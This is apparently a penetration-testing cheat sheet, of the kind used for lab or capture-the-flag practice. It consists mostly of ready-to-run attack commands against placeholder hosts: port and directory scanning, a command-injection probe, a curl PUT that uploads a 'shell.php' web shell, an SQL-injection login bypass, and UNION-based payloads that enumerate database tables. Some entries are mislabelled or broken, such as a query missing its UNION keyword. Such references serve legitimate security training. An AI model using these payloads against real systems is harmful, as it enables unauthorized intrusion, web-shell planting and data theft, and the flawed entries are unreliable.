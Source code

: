 ### Recon
##### NetDiscover
```
netdiscover -r x.x.x.x
```
##### Nmap
```
nmap -A -T5 x.x.x.x -p- -vv
nmap -sS x.x.x.x -p- --min-rate 10000
nmap --script=scriptname.nse x.x.x.x -vv
```
- HTTP Enum with nmap
```
nmap -sV -n -Pn x.x.x.x -vv -p 80 --script=http-vhosts,http-userdir-enum,http-apache-negotiation,http-backup-finder,http-config-backup,http-default-accounts,http-methods,http-method-tamper,http-passwd,http-robots.txt 
```
##### AutoRecon
```
python3 autorecon.py -ct 4 -cs x.x.x.x
````
##### Nikto
```
nikto -h x.x.x.x
```
##### GoBuster
```
gobuster -u x.x.x.x
gobuster dir -u http://x.x.x.x -w /usr/share/wordlists/dirb/common.txt
gobuster -u http://x.x.x.x -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php
gobuster -s 200,204,301,302,307,403 -u x.x.x.x
```
##### Wfuzz
```
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 404 x.x.x.x/FUZZ
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt -R 3 --sc 200 x.x.x.x/FUZZ
wfuzz -c -z file,/root/.ZAP/fuzzers/dirbuster/directory-list-2.3-big.txt --sc 200 http://x.x.x.x/FUZZ.php
wfuzz --hw=1 --hh=3076 -w seclist_common_wordlist.txt http://x.x.x.x/FUZZ
```
##### WpScan
```
wpscan --url http://x.x.x.x --enumerate u,p,t
```
##### SNMPWalk
```
snmpwalk -c public -v1 x.x.x.x
````
##### Webdav
- Incorrect permissions test 
```
cadaver http://x.x.x.x
davtest http://x.x.x.x
```
##### Command Injection
- File Traverse:
```
x.x.x.x/file.php?cmd=ls
```
- Test file upload with curl
```
curl -vX options http://x.x.x.x 
```
- Upload file using curl to website with PUT option available
```
curl --upload-file shell.php --url http://x.x.x.x
```
##### Login Bypass
```
john ' or '1'='1
```
- Enter into username and password
##### Determine vulnerable columns or column that is visible
```
param=' or 1=0 union select null,null,null
param=' or 1=0 union select 1,2,3
```
- Else try
```
param=' or 1=1 union select table_name,null,null from information_schema.tables
```
- If it produces an error try table_name at other positions
- Say Column 1 and 2 are visible from the above queries
- Further Enumerate
```
param=' or 1=0 union select table_schema,null,null from information_schema.columns
```
-Display all databse names
```
param=' or 1=0 union select table_name,null,null from information_schema.columns
```
- Display all table names
```
param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'
```
- Display tables inside public databse

